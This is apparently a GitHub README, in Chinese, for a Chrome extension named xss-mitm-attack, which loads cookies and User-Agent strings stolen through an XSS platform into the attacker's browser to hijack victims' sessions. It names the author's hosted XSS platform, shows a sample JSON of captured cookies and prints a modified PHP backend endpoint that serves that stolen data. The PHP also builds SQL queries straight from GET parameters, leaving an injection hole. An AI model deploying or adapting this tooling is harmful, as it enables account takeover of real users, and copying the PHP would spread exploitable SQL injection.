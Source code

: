 xss-mitm-attack
===============

a chrome extension for xss attack

##前言
修改后的拓展符合manifest 2.0的规范，而且能够同时劫持cookie&用户浏览器的User-Agent（有些网站的加密cookie是跟当前用户浏览器ua相关的所以我们希望达到的时完全模拟用户的会话请求）

##接口json返回示例

	[
	    {
	        "url": "http://xx.xxx.com/",
	        "cookie": "asd=adasdasd;",
	        "ua": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36"
	    },
	    {
	        "url": "http://asd.asdasdasd.com/",
	        "cookie": "backauthv20=asdasd; login_log_date_449=1408079402",
	        "ua": "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.101 Safari/537.36"
	    }
	]


自改xss小平台上线

　　原先一直用xss.hk结果不知怎么被关的，正好手上有代码于是自己搭了一个，网上的类似的xss平台大多一样，原先的xss的chrome插件，不适合 "manifest_version": 2, 
而且很多其他的xss平台直接把代码拿过来，chrome插件的里面的许多代码内容跟xss.me这个与域名绑定的，而且有些加密cookie里面有浏览器的ua信息绑定，所以只用插件替换cookie有时候无法达到效果，否则得借助第三方修改header的插件，我们希望的是完全模拟劫持到的浏览器会话。 
于是有了这一次的修改，php那把在/do/auth的那个接口返回增加了劫持ua的信息，点击口修改当前浏览器cookie跟ua来劫持会话。 
数据放在别人那总归不放心，当然你也可以只用插件，填你自己的接口的信息，你只用插件来劫持会话，我也不会知道你的数据，不过你得稍微修改下php后台的的接口。

平台地址：

x.liet.me

因被公司和谐，域名转到原先的账号依然存在  code4liet.duapp.com

 

chrome xss mitm attack插件代码地址

https://github.com/lietdai/xss-mitm-attack

 

修改后的do.php
<?php
/**
 * api.php 接口
 * ----------------------------------------------------------------
 * OldCMS,site:http://www.oldcms.com
 */
if(!defined('IN_OLDCMS')) die('Access Denied');

$auth=Val('auth','GET');
$db=DBConnect();
$project=$db->FirstRow("SELECT * FROM ".Tb('project')." WHERE authCode='{$auth}'");
if(empty($project)) exit('Auth Err.');

switch($act){
    case 'content':
    default:
        $domain=Val('domain','GET');
        $where='';
        if(!empty($domain)) $where.=" AND domain='{$domain}'";
        $res=$db->Dataset("SELECT content,serverContent FROM ".Tb('project_content')." WHERE projectId='{$project[id]}' {$where} ORDER BY id DESC");
        $data=array();
        foreach($res as $k=>$v){
            $row=array();
            $content=json_decode($v['content'],true);
            $serverContent = json_decode($v['serverContent'],true);
            $row['url']=$content['opener']?$content['opener']: $content['toplocation'];
            $row['cookie']=$content['cookie'];
            $serverContent = json_decode($v['serverContent'],true);
            $row['ua'] = $serverContent['HTTP_USER_AGENT']?:"";
            $data[]=$row;
        }
        echo JsonEncode($data);
        break;
}
?>
